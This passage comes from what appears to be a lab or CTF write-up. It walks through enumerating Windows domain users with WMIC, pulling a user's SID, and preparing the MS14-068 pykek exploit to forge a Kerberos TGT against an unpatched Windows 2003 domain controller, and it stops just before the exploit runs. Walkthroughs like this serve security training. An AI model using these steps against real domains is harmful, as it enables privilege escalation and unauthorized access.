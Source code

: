 ```shell
512          GDS-OFFICE\e.magnusson                                                              FALSE     GDS-OFFICE  Edward Magnusson                FALSE         FALSE    e.magnusson    TRUE                FALSE            TRUE              S-1-5-21-421115581-889488229-2938181853-1124  1        OK
512          GDS-OFFICE\e.lindsey                                                                FALSE     GDS-OFFICE  E L                             FALSE         FALSE    e.lindsey      FALSE               FALSE            TRUE              S-1-5-21-421115581-889488229-2938181853-1131  1        OK
```

Wow, that's a ton of output. Let's try to search just for e.lindsey's user account information and pull her [SID](https://www.windows-commandline.com/get-sid-of-user/) which we will need for forging a Kerberos TGT.

```shell
wmic:root\cli>useraccount where name="e.lindsey" get sid
SID
S-1-5-21-421115581-889488229-2938181853-1131
```

## Utilizing the MS14-068 Exploit to Forge a Kerberos TGT:

Now that we have e.lindsey's SID, we can go ahead and attempt to exploit [MS14-068](https://technet.microsoft.com/en-us/library/security/ms14-068.aspx).

Some of you might be wondering on how I got to this assumption that MS14-068 is the viable exploit?

Well if you take a look back at the Nmap scan results - TCP/88 gives us the Kerberos Version.

```console
88/tcp    open  kerberos-sec   Windows 2003 Kerberos (server time: 2017-02-10 03:46:05Z)
```

Windows Server 2003 was one of the affected versions due to this vulnerability - and it's widely possible that it hasn't been patched!

For us to exploit this vulnerability we have to go ahead and install [Pykek](https://github.com/bidord/pykek), or the Python Kerberos Exploitation Kit on our Kali machine.

```console
root@kali:~/gds# git clone https://github.com/bidord/pykek.git
Cloning into 'pykek'...
remote: Counting objects: 94, done.
remote: Total 94 (delta 0), reused 0 (delta 0), pack-reused 94
Unpacking objects: 100% (94/94), done.
root@kali:~/gds# ls
39719.ps1    common.txt             lindsey_hash  port_force.py  script.py
40637        dir_enum.py            names.txt     pykek          small.txt
captcha.bak  gds-authenticator.apk  pass.txt      rockyou.txt
root@kali:~/gds# cd pykek/
root@kali:~/gds/pykek# ls
kek  ms14-068.py  pyasn1  README.md
```

Once you got that installed and have navigated to the __pykek__ folder, let's go ahead and give __ms14-068.py__ executable permissions, and then run the exploit!
